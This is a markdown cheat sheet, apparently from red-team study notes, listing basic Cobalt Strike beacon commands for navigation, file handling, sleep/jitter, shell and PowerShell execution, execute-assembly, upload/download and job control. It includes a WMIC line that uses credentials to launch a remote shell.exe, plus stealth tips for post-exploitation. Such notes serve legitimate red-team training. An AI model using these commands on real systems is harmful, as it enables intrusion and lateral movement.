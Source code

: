 # 04 - Basic Commands

Search Tag: #cobalt-strike #command-and-control

## 4.1 - Navigation

- Change Directories

`beacon> cd <directory>`

## 4.2 - File Manipulation

- Create directory

`beacon> mkdir C:\path\to\new_directory\`

- Copy file

`beacon> cp C:\path\to\file.txt C:\path\to\copied_file.txt`

- Move file

`beacon> mv C:\path\to\file.txt C:\path\to\moved_file.txt`

- Delete file

`beacon> rm C:\path\to\file.txt`

## 4.3 - Sleep and Jitter

* Set the sleep time for executing beacon commands with delay. If `sleep` is `0` it becomes interactive mode.

`beacon> sleep <seconds> <jitter>`

`beacon> sleep 15 30`

## 4.4 - List files or directories

`beacon> ls`

## 4.5 - Execute Shell Commands

* Execute any `shell` command that the beacon spawns a process `cmd.exe`

`beacon> shell <command> [args]`

`beacon> shell dir /s /b c:\ | findstr "explorer.exe"`

* Spawns a `cmd.exe` process but doesn't print the output

`beacon> execute <command> [args]`

- Execute commands without spawning `cmd.exe` except the running process comes from the `conhost.exe`. This is highly recommended when you perform post exploitation activities.

`beacon> run <command> [args]`

`beacon> run arp -a`

`beacon> run wmic.exe /node:<IP> /user:<username> /password:<password> win32_process call create "C:\path\to\shell.exe"`

* Spawns a child process of `powershell.exe`

`beacon> powershell <cmdlet> [args]`

* Executes unmanaged powershell command. Make sure to change the process when using the `spawnto` command

`beacon> powerpick <cmdlet> [args]`

## 4.6 - Execute Program

Run .NET binary through a temporary process when running `spawnto` beacon command otherwise it defaults back to `rundll32.dll`

`beacon> execute-assembly /path/to/compiled_dotnet_tool.exe [args]`

## 4.7 - Upload and Download Files

* Upload file

`beacon> upload /path/to/local/file.txt C:\path\to\remote\file.txt`

* Download file

`beacon> download C:\path\to\file.txt`

* Check file downloads

`beacon> downloads`

* Cancel file download(s)

`beacon> cancel <file | *>`

## 4.6 - Jobs Queue

* Queue jobs

`beacon> jobs`

* Kill job ID

`beacon> jobkill <jid>`